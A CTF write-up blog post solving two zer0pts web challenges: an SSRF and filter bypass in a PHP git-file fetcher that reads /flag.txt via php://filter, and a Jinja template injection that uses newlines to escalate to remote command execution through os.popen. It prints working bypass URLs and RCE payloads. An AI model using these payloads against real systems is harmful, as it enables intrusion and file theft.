




I debated doing a writeup for this since I only worked on the easiest web challenge with my team, but since this blog needed an update I am publishing it. I solved miniblog++ after the CTF as a teammate solved it during it.

---

## Web

---

# GitFile Explorer

#### Category: Web | 77 points

<details>
  <summary>Challenge Description</summary>
  
  Read /flag.txt on the server.     
	http://gitfile.ctf.zer0pts.com:8001/
</details>

The source code was given for this challenge, so no guessing was required.

First, I tried to understand the application by clicking on the Download button on the Challenge URL, which returns the following URL: [http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md](http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md)


Looking at the source code, we see that the URL is generated as follows:

```php
$service = empty($_GET['service']) ? "" : $_GET['service'];
$owner   = empty($_GET['owner'])   ? "ptr-yudai" : $_GET['owner'];
$repo    = empty($_GET['repo'])    ? "ptrlib"    : $_GET['repo'];
$branch  = empty($_GET['branch'])  ? "master"    : $_GET['branch'];
$file    = empty($_GET['file'])    ? "README.md" : $_GET['file'];

if ($service) {
    $url = craft_url($service, $owner, $repo, $branch, $file);
    if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
        $result = file_get_contents($url);
    }
}
```


It is immediately obvious that the regex is very loose. Since the regex only checks for presence of `github` or `gitlab` or `bitbucket` in the URL, the full hostname is not actually needed and we just need to include it somewhere in our `service` parameter. 

An SSRF can be achieved by putting an `@` after the hostname to redirect to our chosen domain, such as [http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=.&repo=.&branch=.&file=index.php](http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=.&repo=.&branch=.&file=index.php) would return the contents of `index.php` of the site.

From here I tried path traversal by replacing the `index.php` with `../../../flag.txt` only to be met with the following error:

```markdown
: file_get_contents(http://...@gitfile.ctf.zer0pts.com:8001/./././../../../flag.txt): Failed to open stream: HTTP request failed! HTTP/1.1 400 Bad Request in

**/var/www/html/index.php**

on line **30**
```

I got the same error when trying [http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=..&repo=..&branch=..&file=flag.txt](http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=..&repo=..&branch=..&file=flag.txt) as well, which should have sent the same request given the code:

```php
$url = craft_url($service, $owner, $repo, $branch, $file);
```

It was here a few of us got stuck for a while, and we started looking for other bypasses.

The following regex bypasses are viable:
- using the newline character `%0A`: [http://gitfile.ctf.zer0pts.com:8001/?service=http://gitfile.ctf.zer0pts.com:8001/%0Ahttp://github&owner=.&repo=.&branch=.&file=flag.txt](http://gitfile.ctf.zer0pts.com:8001/?service=http://gitfile.ctf.zer0pts.com:8001/%0Ahttp://github&owner=.&repo=.&branch=.&file=flag.txt)
- using the URL-encoded fragment identifier `#`: [http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost%23github&owner=.&repo=.&branch=.&file=flag.txt](http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost%23github&owner=.&repo=.&branch=.&file=flag.txt)
- using the query paramter `?=`: [http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost/flag.txt%3Fa%3Dgithub&owner=.&repo=.&branch=.&file=a](http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost/flag.txt%3Fa%3Dgithub&owner=.&repo=.&branch=.&file=a)

We also tried non-HTTP protocols such as:
- File selector `file://`: [http://gitfile.ctf.zer0pts.com:8001/?service=file://flag.txt%0Ahttp://github&owner=.&repo=.&branch=.&file=index.php](http://gitfile.ctf.zer0pts.com:8001/?service=file://flag.txt%0Ahttp://github&owner=.&repo=.&branch=.&file=index.php) which returns `Remote host file access not supported`, meaning that the `file://` wouldn't work.
- PHP Filter `php://filter/convert.base64-encode/resource=`: [http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=flag.txt%0Ahttp://github&owner=..&repo=..&branch=..&file=.](http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=flag.txt%0Ahttp://github&owner=..&repo=..&branch=..&file=.), which returns `Read of 8192 bytes failed with errno=21 Is a directory in /var/www/html/index.php on line 30`, which meant that `resource` was somehow reading a directory instead of the file we specified. 

And thus to no avail.

It was at this point Ocean came in with the brilliant idea of separating the base resource directory as a `/` and specifying the file in the param instead: [http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=/%0ahttp://github&owner=..&repo=..&branch=..&file=flag.txt](http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=/%0ahttp://github&owner=..&repo=..&branch=..&file=flag.txt), which finally led us to the flag.

The content returned was in base64 due to our filter: `emVyMHB0c3tmb28vYmFyLy4uLy4uLy4uLy4uLy4uL2RpcmVjdG9yeS90cmF2ZXJzYWx9Cg==`

Which when decoded, it gives the flag!



<details>
  <summary>FLAG</summary>
  
   zer0pts{foo/bar/../../../../../directory/traversal}
</details>


---

# Miniblog++

#### Category: Web | 113 points

<details>
  <summary>Challenge Description</summary>
  
  Backup is important!
	http://miniblog.ctf.zer0pts.com:8008/
</details>

**Note: You'll have to replace all the full-width curly braces in this writeup with half-width ones, because I used a dirty hack to fix the Liquid engine formatting.**

Credits to @Creastery who solved this during the CTF. I didn't look at it until after the CTF ended as it was already solved. 

Upon a cursory skim of the source code, I saw lots of `｛｛title｝｝` and `｛｛author｝｝` which hints towards SSTI.

Logging into the site automatically creates an account for your specified user, so I tried creating an account with username `7*7` in hopes of it being executed when `｛｛author｝｝` is generated, however it did not work. `｛｛title｝｝` also does not seem to execute my payload.

Next I tried to enter `｛｛7*7｝｝` in the content body instead, but was prevented by some server side rule that says `You can only use "｛｛title｝｝", "｛｛author｝｝", and "｛｛date｝｝`. 

Thus, I checked the source code for the logic:


```python
if len(content) == 0     : return 'HTML is empty', None
        if len(content) > 1024*64: return 'HTML is too long', None
        if '｛%' in content:
            return 'The pattern "｛%" is forbidden', None
        for brace in re.findall(r"｛｛.*?｝｝", content):
            if not re.match(r"｛｛!?[a-zA-Z0-9_]+｝｝", brace):
                return 'You can only use "｛｛title｝｝", "｛｛author｝｝", and "｛｛date｝｝"', None
```

As we can see, apart from the `｛%` forbidden pattern , the regex also matches any alphanumeric character and underscores between the braces and rejects them if they don't match any of the 3 tags.


However, newlines are not prevented and thus we can insert this into the body:
```html
<!DOCTYPE html>
<html>
｛｛
7*7
｝｝
  <head>
    <meta charset="UTF-8">
    <title>｛｛title｝｝</title>
  </head>
  <body>
    <h1>｛｛author｝｝'s Website</h1>
    <p>This is a sample page by ｛｛author｝｝ published on ｛｛date｝｝.</p>
  </body>
</html>

```

Which leads to the equation being executed server side, and we got the SSTI!



Next, I changed the `7*6` payload to a more useful payload for RCE:
`request.application.__globals__.__builtins__.__import__('os').popen('ls -alR /').read()`



I listed all the files on the server and went to look for the flag. 

Eventually I found it in `flag-wowRCEwow.txt`. My final payload was:

```html

<!DOCTYPE html>
<html>
｛｛
request.application.__globals__.__builtins__.__import__('os').popen('cat /flag-wowRCEwow.txt').read()
｝｝
  <head>
    <meta charset="UTF-8">
    <title>｛｛title｝｝</title>
  </head>
  <body>
    <h1>｛｛author｝｝'s Website</h1>
    <p>This is a sample page by ｛｛author｝｝ published on ｛｛date｝｝.</p>
  </body>
</html>

```



<details>
  <summary>FLAG</summary>
  
   zer0pts{You_obtained_a_Bachelor_of_ZIP}
    
</details>


---

